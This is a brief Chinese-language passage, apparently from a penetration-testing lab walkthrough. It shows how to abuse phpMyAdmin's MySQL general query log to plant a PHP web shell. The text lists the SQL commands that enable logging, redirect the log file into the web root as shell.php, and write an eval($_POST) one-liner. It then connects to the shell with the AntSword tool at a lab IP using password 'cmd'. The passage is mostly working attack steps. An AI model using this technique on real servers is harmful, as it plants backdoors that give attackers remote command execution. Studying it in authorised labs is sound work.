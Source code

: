 利用phpmyadmin日志

```plain
show variables  like  '%general%';
SET GLOBAL general_log='on'; SHOW VARIABLES LIKE '%general%';
SET GLOBAL general_log_file='C:/phpStudy_pro/www/shell.php';
SELECT '<?php eval($_POST["cmd"]);?>'
```

写入一句话

[![](assets/1705301733-c25fbca7345ff9df442b1e32877b1fd5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112141326-b29d1790-b111-1.png)

蚁剑连接

地址：[http://192.168.22.130/shell.php](http://192.168.22.130/shell.php)

密码：cmd

[![](assets/1705301733-31211815f402463ea199856b4e978238.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112141342-bc5ebd92-b111-1.png)
